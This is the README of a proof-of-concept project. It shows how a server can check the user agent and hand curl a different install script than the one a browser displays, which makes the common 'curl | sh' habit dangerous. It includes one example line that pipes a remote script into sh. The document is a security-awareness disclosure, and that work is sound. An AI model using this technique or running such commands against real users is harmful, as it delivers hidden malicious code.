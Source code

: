 pipe-to-sh Proof of Concept
===========================

Piping direct to sh from the web has its obvious dangers along with some
not so obvious hidden ones..

This project showcases a possible, non-obvious exploit which relies on
sniffing the browser's user agent string to change a served .sh file dependent
on whether or not the browser is curl/libcurl. This would allow a malicious
person to point a user to a perfectly reasonable looking .sh file while in
the background providing a different - perhaps evil - .sh file to the user
told to download via [curl/libcurl](http://curl.haxx.se/) like so:

    curl -s http://blah.com/install.sh | sh

This is a proof of concept; no damaging code is contained within.

For more on this please see the post on [djm.org.uk](http://www.djm.org.uk "Darian Moody, Python Developer, London").
